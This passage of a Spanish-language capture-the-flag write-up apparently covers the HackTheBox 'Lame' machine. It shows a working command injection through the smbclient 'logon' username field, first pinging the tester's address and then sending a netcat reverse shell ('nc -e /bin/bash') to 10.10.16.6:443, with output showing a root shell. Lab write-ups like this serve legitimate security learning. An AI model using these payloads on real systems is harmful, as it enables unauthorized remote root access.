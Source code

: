 Y viendo que con logon, hacemos las inyecciones, primero nos mandaremos un ping a nuestra ip que intentaremos capturar(tcpdump -i tun0 icmp -n)     

```
smb: \> logon "/=`nohup ping -c 1 10.10.16.6`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Viendo que si que nos llega, vamos a enviarnos una bash por el puerto 443 mientras nos ponemos en escucha(nc -nvlp 443):

```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.16.6 443`"
Password: 
```

Esto ya nos da la shell y vemos que estamos como root:

```
Ricart0@kali:/home/kali/HTB/Lame/exploits -> nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.3] 55387
whoami
root
```

Solo queda buscar las flags y lo tendríamos
